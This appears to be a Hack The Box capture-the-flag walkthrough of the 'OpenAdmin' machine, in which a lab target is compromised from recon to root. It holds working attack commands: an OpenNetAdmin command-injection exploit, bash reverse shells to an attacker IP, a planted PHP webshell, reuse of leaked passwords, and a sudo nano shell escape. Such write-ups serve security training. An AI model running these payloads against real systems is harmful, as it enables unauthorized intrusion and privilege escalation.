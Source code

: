 # 🧠 HTB: OpenAdmin — Walkthrough

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
**Tags:** `OpenNetAdmin`, `webshell`, `password reuse`, `sudo nano`, `GTFObins`

---

## 📡 Recon

### Nmap Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.171
nmap -p 22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.171
```

- Open ports: `22 (SSH)`, `80 (HTTP)`
- Apache 2.4.29, [OpenSSH 7.6](SSH) → Ubuntu 18.04

---

## 🌐 [Web Enumeration](HTTP)

### Gobuster

```bash
gobuster dir -u http://10.10.10.171 \
  -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
  -x php,txt,html -o scans/gobuster-root-php_txt_html
```

✅ Found:
- `/music`, `/artwork`, `/sierra`, `/ona`

### OpenNetAdmin (ONA)

- Version 18.1.1 (vulnerable)

---

## 🐚 Shell as www-data

### Exploit OpenNetAdmin RCE

```bash
curl -s -d "xajax=window_submit&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;id&xajaxargs[]=ping" http://10.10.10.171/ona/
```

### Reverse Shell Payload

```bash
curl -s -d "xajax=window_submit&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >& /dev/tcp/10.10.14.11/443 0>&1'&xajaxargs[]=ping" http://10.10.10.171/ona/
```

### Listener

```bash
nc -lvnp 443
```

✅ Shell as `www-data`

---

## 👤 Priv Esc: www-data → jimmy

### Database Password Reuse

```bash
cat /var/www/html/ona/local/config/database_settings.inc.php
# Found password: n1nj4W4rri0R!
```

### Switch User

```bash
su jimmy
```

✅ Shell as `jimmy`

---

## 👥 Priv Esc: jimmy → joanna

### View Internal Site Config

```bash
cat /etc/apache2/sites-enabled/internal.conf
# Port 52846, user joanna
```

### SSH Tunnel

```bash
ssh jimmy@10.10.10.171 -L 52846:localhost:52846
```

### Path 1: Webshell

```bash
echo '<?php system($_GET["cmd"]); ?>' > /var/www/internal/shell.php
curl "http://127.0.0.1:52846/shell.php?cmd=id"
curl "http://127.0.0.1:52846/shell.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.11/4444 0>&1'"
```

### Path 2: Decrypt Joanna’s SSH Key

```php
# From index.php: password = joanna
# Get key from main.php after login
```

Decrypt the key:

```bash
openssl rsa -in joanna-enc -out id_rsa_joanna
# Pass: bloodninjas
```

Login:

```bash
ssh -i id_rsa_joanna joanna@10.10.10.171
```

✅ Shell as `joanna`  
📄 `cat user.txt`

---

## 🔓 Priv Esc: joanna → root

### Sudo Rights

```bash
sudo -l
# /bin/nano /opt/priv (NOPASSWD)
```

### GTFObins - Nano Shell Escape

```bash
sudo /bin/nano /opt/priv
# Ctrl + R, then Ctrl + X
# Enter: reset; sh 1>&0 2>&0
# Then: bash
```

✅ Root shell  
📄 `cat /root/root.txt`
